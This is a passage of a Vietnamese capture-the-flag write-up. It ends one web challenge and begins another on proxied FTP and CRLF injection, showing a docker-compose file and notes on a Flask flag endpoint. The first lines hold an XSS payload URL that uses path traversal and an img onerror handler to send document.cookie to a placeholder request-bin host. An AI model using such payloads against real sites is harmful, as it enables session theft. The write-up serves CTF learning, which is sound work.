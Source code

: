 ```http://127.0.0.1/view?note=<note_id>&name=....//....//....//contact%3fxss=%3Cimg/src/onerror=fetch(%27<request_bin_server>/?%27%2bdocument.cookie)%3E```
![image](./images/image65.png)

#### Source

https://drive.google.com/file/d/1b8wDTjOYVZhZRijxaoPRiucseEYJfxFR/view?usp=sharing

#### Hints

Proxy FTP request and CR-LF injection

#### Solution

Đề bài cho mình một trang web sau có chức năng là nhập vào tên và hiển thị tên mà mình vừa nhập

![image](./images/image66.png)

![image](./images/image67.png)

Sau khi mình thử các lỗi xss và ssti không thành công nên mình đọc lại source code và phân tích : 

* Đầu tiên, có 3 services đang chạy bao gồm flask, node và php nhưng chỉ có frontend php được expose ở port 80, các service còn lại được chạy bên trong máy chủ.

<details>
<summary>docker-compose.yml</summary>

```docker-compose
services:
    web:
        build: ./php
        ports:
            - "80:80"
            - "3000"
            - "5000"
        restart: always
    node:
        build: ./node
        restart: always
        network_mode: service:web
    flask:
        build: ./flask
        environment:
            FLAG: INTIGRITI{fake_flag}
        restart: always
        network_mode: service:web
```
    
</details>

* Mình thử xem qua service flask và thấy có hai endpoint test và flag, trong đó /flag yêu cầu password từ header và username trong form đều là "admin" thì mới trả ra flag
